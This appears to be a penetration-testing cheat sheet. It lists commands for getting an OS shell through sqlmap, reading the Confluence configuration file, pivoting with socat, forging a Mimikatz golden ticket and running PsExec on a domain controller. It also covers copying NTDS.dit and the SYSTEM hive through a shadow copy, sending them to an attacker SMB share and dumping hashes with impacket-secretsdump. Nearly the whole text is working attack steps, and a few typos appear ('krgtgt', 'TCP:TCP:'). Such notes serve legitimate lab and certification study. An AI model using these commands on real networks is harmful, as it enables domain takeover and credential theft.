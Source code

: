 `sqlmap` can also grab POST requests from Burpsuite
- Intercept POST request in Burp, save to local text file `post.txt`
- Establish shell in web root: `sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"`

# Port Redirection & SSH Tunnelling
Once connected to an internet-facing server, run `ip addr` & `ip route` to find other connections
To view Confluence configuration file: `cat /var/atlassian/application-data/confluence/confluence.cfg.xml`
## Port Forwarding with Socat
Socat runs on the intermediary system (eg. jump server between Kali & Target)
Example: `socat -ddd TCP-LISTEN:2345,fork TCP:10.4.182.215:5432`
- Provide verbose output: `-ddd`
- Listens on 2345: `TCP-LISTEN:2345`
- New connection forks a new TCP sub-process: `fork TCP:TCP:10.4.50.215:5432`

To change connection type, kill the Socat process: 
- Find process number: `ps aux | grep socat`
- Kill the process: `kill -9 process#` eg. `kill -9 3540`

# AD Persistence
## Golden Ticket
Access DC & target `krgtgt` NTLM Hash (Mimikatz): `privilege::debug` & `lsadump::lsa /patch`
Move to different machine and;
- Purge tickets(Mimikatz): `kerberos::purge`
- Create Golden Ticket for a specific user(Mimikatz): `kerberos::golden /user:targetuser /domain:corp.com /sid:S-1-5-21-DOMAINSID-658905905-1781884369 /krbtgt:NTLMHASHOFKRBTGT7af11ef34d1c788f47 /ptt`
- Launch a new cmd prompt(Mimikatz): `misc::cmd`
- Use PsExec to run cmd on DC1: `\SysinternalsSuite\PsExec.exe \\dc1 cmd.exe`
	- IMPORTANT: Use the *hostname* for this, **not** the IP Address (Access Blocked)

## Shadow Copies
VSS - Volume Shadow Service
- Using domain admin on DC to extract NTDS.dit database file(Tools): `vshadow.exe -nw -p C:`
- Copy backup to "C:" : `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak`
- Save the SYSTEM hive from the Windows registry: `reg.exe save hklm\system c:\system.bak`
- Exfiltrate both files to Kali: `sudo impacket-smbserver share -smb2support /home/ -user validuser -password 'Password123!'`
- Use Impacket to dump secrets: `impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL`